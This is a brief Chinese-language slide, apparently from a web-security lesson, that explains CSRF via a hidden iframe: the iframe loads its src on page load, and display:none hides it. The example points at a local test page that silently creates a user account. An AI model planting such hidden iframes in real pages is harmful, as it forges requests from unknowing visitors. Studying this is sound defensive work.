

iframe利用
iframe标签内容将在页面加载过程中自动进行加载， src指向的位置就是页面请求的位置
注意：可以设置iframe 的 style -> display:none，以此来不显示iframe加载的内容。

<iframe src=”http://127.0.0.1/csrf_test/get_csrf/new_user.php?username=liuxiaoyang&password=123456” style=”display:none” />